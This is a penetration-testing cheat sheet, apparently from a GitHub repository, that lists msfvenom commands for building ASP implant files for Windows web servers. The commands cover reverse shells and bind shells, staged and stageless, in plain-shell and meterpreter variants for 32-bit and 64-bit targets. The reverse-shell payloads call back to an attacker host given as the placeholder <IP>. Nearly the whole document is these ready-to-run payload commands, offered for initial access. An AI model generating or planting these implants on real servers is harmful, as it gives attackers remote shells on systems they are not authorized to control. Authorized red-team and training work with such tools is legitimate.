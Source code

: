 ```yaml
---
author(s):
  - Userware
tags:
  - webapp-pentesting
  - initial-access
  - windows
---
```

# ASP

## Reverse Shells

Stageless x86 (32-bit) reverse shell.

```
$ msfvenom -p windows/shell_reverse_tcp lhost=<IP> lport=<PORT> -f asp -o implant-x86.asp
```

Stageless x86_64 (64-bit) reverse shell.

```
$ msfvenom -p windows/x64/shell_reverse_tcp lhost=<IP> lport=<PORT> -f asp -o implant-x86-64.asp
```

Staged x86 (32-bit) reverse shell.

```
$ msfvenom -p windows/shell/reverse_tcp lhost=<IP> lport=<PORT> -f asp -o implant-x86.asp
```

Staged x86_64 (64-bit) reverse shell.

```
$ msfvenom -p windows/x64/shell/reverse_tcp lhost=<IP> lport=<PORT> -f asp -o implant-x64.asp
```

Staged x86 (32-bit) `meterpreter` reverse shell.

```
$ msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f asp -o implant-x86.asp
```

Stageless x86-64 (64-bit) `meterpreter` reverse shell.

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f asp -o implant-x64.asp
```

Stageless x86 (32-bit) `meterpreter` reverse shell.

```
$ msfvenom -p windows/meterpreter_reverse_tcp lhost=<IP> lport=<PORT> -f asp -o implant-x86.asp
```

Stageless x86-64 (64-bit) `meterpreter` reverse shell.

```
$ msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=<IP> lport=<PORT> -f asp -o implant-x64.asp
```

## Bind Shells

Staged x86 (32-bit) bind shell.

```
$ msfvenom -p windows/shell/bind_tcp lport=<PORT> -f asp -o implant-x86.asp
```

Stageless x86-64 (64-bit) bind shell.

```
$ msfvenom -p windows/x64/shell_bind_tcp lport=<PORT> -f asp -o implant-x64.asp
```

Staged x86 (32-bit) `meterpreter` bind shell.

```
$ msfvenom -p windows/meterpreter/bind_tcp lport=<PORT> -f asp -o implant-x86.asp
```

Staged x86-64 (64-bit) `meterpreter` bind shell.

```
$ msfvenom -p windows/x64/meterpreter/bind_tcp lport=<PORT> -f asp -o implant-x64.asp
```

Stageless x86 (32-bit) `meterpreter` bind shell.

```
$ msfvenom -p windows/meterpreter_bind_tcp lport=<PORT> -f asp -o implant-x86.asp
```

Stageless x86-64 (64-bit) `meterpreter` bind shell.

```
$ msfvenom -p windows/x64/meterpreter_bind_tcp lport=<PORT> -f asp -o implant-x64.asp
```